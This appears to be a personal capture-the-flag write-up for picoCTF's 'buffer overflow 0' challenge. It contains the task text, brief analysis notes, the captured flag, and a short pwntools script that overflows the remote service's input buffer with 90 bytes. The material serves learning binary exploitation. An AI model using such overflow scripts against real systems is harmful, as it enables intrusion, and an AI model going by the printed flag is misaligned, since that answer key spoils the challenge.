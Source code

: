 Links [[00 - Global Index (Start Here!)]] [[01 - PicoGym]] [[Binary Exploitation]]

# [[02 - buffer overflow 0]]
### Contents
***
- [Task Description](02%20-%20buffer%20overflow%200.md#Task%20Description)
- [Notes](02%20-%20buffer%20overflow%200.md#Notes)
- [Solve Script](02%20-%20buffer%20overflow%200.md#Solve%20Script)


### Task Description
---
Smash the stackLet's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/522/vuln). You can view source [here](https://artifacts.picoctf.net/c/522/vuln.c). And connect with it using:
`nc saturn.picoctf.net 51110`

### Notes
---
wget the file and run file and rabin2 to the file.
It is a 32bit ELF.

Running the file to see what it does.
It lets you input a string then exits.
Lets run it once and see what happens if you overflow the input field.
It gives the flag. Nice
```flag
picoCTF{ov3rfl0ws_ar3nt_that_bad_8ba275ff}
```

### Solve Script
---
```python
from pwn import *
r = remote('saturn.picoctf.net',51110)
r.recvuntil(b'Input: ')
r.sendline(b'A'*90)
x = r.recv().decode('utf-8')
print(str(x).strip())
r.close()
```


---
Creation date: 09-10-2022
Last modified date: Sunday 9th October 2022
***
